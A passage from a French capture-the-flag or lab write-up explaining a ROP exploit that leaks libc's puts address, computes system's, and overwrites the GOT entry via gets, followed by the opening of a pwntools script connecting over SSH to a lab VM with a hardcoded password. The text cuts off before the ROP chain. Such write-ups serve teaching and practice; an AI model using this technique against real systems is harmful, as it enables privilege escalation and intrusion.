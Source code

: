 On voit que ce *trampoline* dit simplement *saute à l'adresse contenue à l'adresse 0x601018*. Si j'écrase l'adresse contenue (*0x7ffff7e06d7e*) par celle de *system* (0x7ffff7dd99be) alors le prochain appel à *puts* appellera en réalité *system*.  

Mais il y a des choses à faire auparavant : fuiter l'adresse de *puts* dans la libc (*\_\_GI\_\_IO\_puts*) puisqu'elle change à chaque exécution puis à partir de là calculer l'adresse de *system* (*\_\_libc\_system*). Et enfin il faut écraser *puts* par *system*.  

La première partie est assez simple : il faut faire en sorte que *puts* affiche... *puts* pour fuiter l'adresse de la LIBC.  

On est alors en mesure de calculer l'adresse de *system* via simple addition ou soustraction.  

La partie la plus critique est celle consistant à réécrire la valeur en mémoire, pour cela il faut faire en sorte qu'un *gets()* soit appelé pour qu'il écrive à l'adresse de *puts@got.plt* la valeur de *\_\_libc\_system*.  

Compliqué ? Quand on a les bons gadgets pas tant que ça mais l'exploit doit pouvoir gérer la gestion des entrées/sorties du binaire exploité sachant qu'il y a des mécanismes de buffering qui peuvent compliquer tout ça.  

J'ai trouvé c[ette discussion sur StackExchange](https://unix.stackexchange.com/questions/25372/turn-off-buffering-in-pipe) qui pourrait bien s'avérer utile un jour.  

Finalement je me suis tourné vers la librairie Python *pwntools* qui gère très bien les entrées / sorties en me basant [sur un template présent sur HackTricks](https://book.hacktricks.xyz/exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address/rop-leaking-libc-template) (ce site est véritablement une bible du hacking).  

Petite modification de dernière minute quand je me suis rendu compte que si j'appelle *system* il serait plus intelligent d'appeler *setuid* avant (ahaha). A la place j'ai préféré que le ROP appelle chmod sur un fichier nommé *zR* (parce que cette chaîne de caractères est présente dans le binaire). Vous verrez l'exploitation plus bas.  

Code de l'exploit :  

```python
from pwn import ELF, process, ROP, remote, ssh, log, p64, u64

LOCAL = False

LOCAL_BIN = "/tmp/ropit"  # Cette copie locale sert pour analyse
REMOTE_BIN = "/home/Boe/ropit"  # Sert juste à spécifier le chemin vers le binaire à exécuter
ENV = {
    "PATH": ".:/usr/local/bin:/usr/bin:/bin:/sbin:/usr/sbin",
    "TERM": "xterm-256color",
}

if LOCAL:
    # Les valeurs ici servent à tester en local
    ENV["HOME"] = "/home/devloop"
    P = process(LOCAL_BIN, env=ENV)
    LIBC = ELF("/lib64/libc.so.6")
else:
    ENV["HOME"] = "/home/Joxter"
    ENV["USER"] = "Joxter"
    ENV["PWD"] = "/home/Joxter"
    ssh_shell = ssh('Joxter', '192.168.56.19', password='0ffs3cJ0xt3r!!', port=22)
    P = ssh_shell.process(REMOTE_BIN, env=ENV, cwd="/home/Joxter")
    # On aura pris soin de copier la libc de la VM en local
    LIBC = ELF("./libc.so.6")

ELF_LOADED = ELF(LOCAL_BIN)  # Extract data from binary
ROP_LOADED = ROP(ELF_LOADED)  # Find ROP gadgets

PUTS_PLT = ELF_LOADED.plt['puts']
GETS_PLT = ELF_LOADED.plt['gets']

```
